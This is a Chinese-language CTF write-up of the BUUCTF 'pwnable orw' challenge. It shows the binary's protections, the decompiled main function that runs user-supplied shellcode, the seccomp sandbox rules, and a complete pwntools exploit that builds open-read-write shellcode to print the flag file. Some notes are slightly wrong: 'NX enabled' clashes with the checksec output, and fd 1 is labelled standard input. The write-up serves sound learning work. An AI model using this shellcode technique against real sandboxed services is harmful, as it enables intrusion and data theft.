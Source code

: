 ```yaml
---
author: 
  name: Zephyr
title: pwnable orw
date: 2022-3-30 16:50:25
permalink: /pages/2e1547494524d1a0
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - sandbox
---
```


# pwnable orw

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```

orw_seccomp函数及函数表如下

![pwnable_orw_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/pwnable_orw_1.png)

沙箱规则如下

```shell
seccomp-tools dump ./orw 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

## 思路分析

1. 目前信息：
   
   - 沙箱规则只允许`sigreturn`、`exit`、`open`、`read`、`write`这几个系统调用
   
   - `shellcode`在`bss`段且非常长
   
   - `read`读入输入的数据将其写入`shellcode`处，然后直接跳转到该处
   - Canary found
   - NX enabled
   - Has RWX segments
   
2. 思路：
   - 构造`shellcode`，使用`open`打开`flag`文件，`read`读取其中内容，`write`再打印出来

## exp

```python
from pwn import *
from LibcSearcher import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_orw/orw'
# io = remote('node4.buuoj.cn', 25746)
io = process(pwnfile)
elf = ELF(pwnfile)
shellcode = asm(shellcraft.open('./flag'))
# 打开flag文件
shellcode += asm(shellcraft.read('eax', 'esp', 42))
# eax为sys_open函数结束时返回的fd文件描述符
shellcode += asm(shellcraft.write(1, 'esp', 42))
# 1为标准输入
shellcode += asm(shellcraft.exit(0))
io.sendafter('Give my your shellcode:', shellcode)
print(io.recv())
```